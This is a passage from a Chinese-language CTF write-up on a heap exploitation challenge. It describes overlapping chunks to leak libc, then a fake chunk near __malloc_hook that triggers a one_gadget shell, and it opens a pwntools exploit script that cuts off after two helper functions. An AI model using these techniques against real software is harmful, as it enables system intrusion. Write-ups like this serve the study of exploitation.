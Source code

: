 5. 將 chunk 2 和修改過大小的 chunk 4 分配回來，再將 chunk 4 的大小更改回 0x91 使其再度變回 small chunk 後再 free 掉。這樣就能成功建構出 chunk 2 chunk 4 指向同一個 chunk 的起始 address，但是chunk 在 smallbin 中，且 chunk 2 正在使用中的結構。這個時候就可以透過 chunk 2 leak 出 libc 的 base address。
6. 再取得 libc 位置之後，我們利用 one_gadget 的套件找到一個開 shell 的指令，並設法在 malloc_hook 附近建構一個 fake chunk，嘗試透過這個 chunk 用 fill() assign value 給 __malloc_hook，再執行 calloc 的時候就會因為 `__malloc_hook` 有給值，而直接跳到該處執行。
    
    ![MicrosoftTeams-image (1).png](CTF%20Project%202%202542ef8a77724021a9d848e0f7ab52fb/MicrosoftTeams-image_(1).png)
    
7. 最後就可以拿到了 shell。(備註 : 因為 ctf 的 server 已經關閉，因此這邊沒有 flag 顯示出來)
    
    ![MicrosoftTeams-image.png](CTF%20Project%202%202542ef8a77724021a9d848e0f7ab52fb/MicrosoftTeams-image.png)
    

### Exploit

```python
from pwn import *
import sys

def alloc(size):
    p.sendline('1')
    p.sendlineafter(': ', str(size))
    p.recvuntil(': ', timeout=1)

def fill(idx, data):
    p.sendline('2')
    p.sendlineafter(': ', str(idx))
    p.sendlineafter(': ', str(len(data)))
    p.sendafter(': ', data)
    p.recvuntil(': ')
```